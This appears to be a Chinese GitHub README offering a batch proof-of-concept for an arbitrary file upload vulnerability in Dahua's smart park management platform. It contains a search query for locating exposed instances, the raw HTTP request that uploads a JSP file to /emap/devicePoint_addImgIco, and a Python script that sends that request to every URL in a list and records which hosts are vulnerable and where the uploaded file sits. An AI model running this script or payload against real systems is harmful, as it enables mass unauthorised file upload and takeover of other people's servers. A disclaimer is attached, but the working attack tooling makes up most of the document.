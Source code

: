 # 大华智慧园区综合管理平台任意文件上传漏洞 批量检测POC

## 免责申明
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

基于已公开的poc进行编写批量检测python脚本



### 0x1 漏洞简介

大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。
大华智慧园区综合管理平台存在在野 0day 漏洞，攻击者可以通过请求/emap/devicePoint_addImgIco接口任意上传文件，导致系统被攻击与控制。



### 0x2 测绘语法

```
app="dahua-智慧园区综合管理平台"
```



### 0x3 已公开POC

```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36 Edg/110.0.1587.69
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 243
Connection: close

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1ndex.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

123
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```



### 0x4 根据poc编写批量检测脚本

```
import argparse
import time
import requests

parser = argparse.ArgumentParser(description='大华智慧园区综合管理平台任意文件上传 批量PoC')
parser.add_argument('-f',help='Batch detection file name',type=str)
args = parser.parse_args()
file = args.f

def get_url(file):
    with open('{}'.format(file),'r',encoding='utf-8') as f:
        for i in f:
            i = i.replace('\n', '')
            send_req("http://"+i)

def write_result(content):
    f = open("result.txt", "a", encoding="UTF-8")
    f.write('{}\n'.format(content))
    f.close()


def send_req(url_check):
    print('{} runing Check'.format(url_check))
    url = url_check + '/emap/devicePoint_addImgIco?hasSubsystem=true'
    header = {
        'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36 Edg/110.0.1587.69',
        'Content-Type':'multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT',
        'Accept':'text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2',
        'Connection':'close'
    }
    data = (
        "--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT\r\n"
        'Content-Disposition: form-data; name="upload"; filename="1ndex.jsp"\r\n'
        "Content-Type: application/octet-stream\r\n"
        "Content-Transfer-Encoding: binary\r\n"
        "\r\n"
        "123\r\n"
        "--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--"
    )
    try:
        requests.packages.urllib3.disable_warnings()
        response = requests.post(url=url,headers=header,data=data,verify=False,timeout=3).json()
        if response['code'] == 1:
            result = '{} 存在任意文件上传漏洞! 请访问目标自测：{} \n'.format(url_check,
                                                            url_check + "/upload/emap/society_new/" + response['data'])
            print(result)
            write_result(result)
        time.sleep(1)
    except Exception as e:
        print(e)
        pass

if __name__ == '__main__':
    if file is None:
        print('请在当前目录下新建需要检测的url.txt')
    else:
        get_url(file)
```

### 0x5 食用方法

1、准备一个url.txt，例如：

<img src="./images/微信截图_20230711105028.png" style="zoom:50%;" />

2、执行

```
python dahua_check.py -f url.txt
```



![微信截图_20230711105248](./images/微信截图_20230711105248.png)

![微信图片编辑_20230711105427](./images/微信图片编辑_20230711105427.jpg)

3、检测出有任意文件上传漏洞的资产会保存在同目录result.txt文件中

![微信截图_20230711104138](./images/微信截图_20230711104138.png)

4、访问一个目标测试一下是否上传成功

![微信截图_20230711110001](./images/微信截图_20230711110001.png)
